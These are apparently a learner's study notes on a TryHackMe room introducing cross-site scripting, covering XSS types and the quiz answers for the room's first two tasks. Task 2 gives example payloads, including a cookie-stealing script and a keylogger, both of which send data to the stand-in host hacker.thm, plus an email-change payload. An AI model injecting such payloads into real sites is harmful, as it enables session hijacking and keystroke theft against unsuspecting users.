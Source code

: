 ```yaml
---
{"dg-publish":true,"permalink":"/thm-notes/web-fundamentals-path/baisc-vuln/cross-site-scripting-xss/","title":"Intro to Cross Site Scripting","tags":["web"]}
---
```


## Notes on XSS and Exploiting Cross-Site Scripting Vulnerabilities

## TASK 1 - Room Brief
### Prerequisites
- Basic understanding of JavaScript
- Understanding of Client-Server requests and responses

### Introduction to XSS
- XSS (Cross-Site Scripting): An injection attack where malicious JavaScript is injected into a web application to be executed by other users.
- Types of XSS:
  - Reflected XSS
  - Stored XSS
  - DOM-Based XSS
- Real-world examples of XSS vulnerabilities found in major applications: Shopify, Steam chat, HackerOne, Infogram.

**Questions:**
1. What does XSS stand for?
   - Answer: `Cross-site scripting`

## TASK 2 - XSS Payloads
### What is a Payload?
- The JavaScript code intended to be executed on the target's computer.
- Two parts: intention and modification.

### Examples of XSS Intentions
1. **Proof of Concept:**
   - Example: `<script>alert('XSS');</script>`
2. **Session Stealing:**
   - Example: `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
3. **Key Logger:**
   - Example: `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
4. **Business Logic:**
   - Example: `<script>user.changeEmail('attacker@hacker.thm');</script>`

**Questions:**
1. Which document property could contain the user's session token?
   - Answer: `document.cookie`
2. Which JavaScript method is often used as a Proof Of Concept?
   - Answer: `alert`
